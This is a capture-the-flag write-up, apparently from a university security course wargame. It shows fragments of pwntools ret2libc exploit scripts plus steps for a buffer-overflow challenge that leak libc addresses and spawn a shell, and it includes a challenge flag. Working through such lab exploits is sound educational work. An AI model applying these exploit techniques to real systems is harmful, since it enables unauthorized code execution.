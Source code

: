 ```python

        printf_address = int(resp, 16)
        system_address = printf_address - 0xe8d0
        bin_sh_string_add = printf_address + 0x11239b

        payload = p32(ret_address) * 34 + p32(system_address) + p32(bin_sh_string_add) * 2 + r_char

        r.send(payload)
        resp = r.recvrepeat(0.4)
        print resp

        r.interactive()
        r.close()

if __name__ == '__main__':
    main()
```


==============================
==============================

nx-2 | roproprop
===========================

Flag: `6447{1403f546-2002-4f3a-8da7-13493dc643b7}`

General overview of problems faced
-------------------------------------
- The function post-amble in this case was confusing as it was moving the stack around between multiple registers/addresses
- Had to use a libc database search to find the libc version used and calculate corresponding offset

List of vulnerabilities
--------------------
1. Infoleak: we are given the address to the `puts` function
2. Buffer overflow: The program uses `gets` to take input into a fixed length buffer

Steps to exploit
------------------
1. Record the `puts` address pointer
2. Use a libc database to find which libc library is being used and using the given offsets, calculate the system address and the "/bin/sh" string address
3. Send as a single payload:
    - 1 byte to fix offset
    - the address 0x08048331 in little endian format 331 times
    - the calculated system address
    - 4 bytes to replace return address
    - the calculated "/bin/sh" address
4. Congratulations you now have a shell

Script/Command used
------------------
```python
#!/usr/bin/env python
# -*- encoding: utf-8 -*-

from pwn import *

r = remote("wargames.6447.sec.edu.au", 8002)

r.recvuntil("number:")
resp = r.recvline().strip()
print resp

```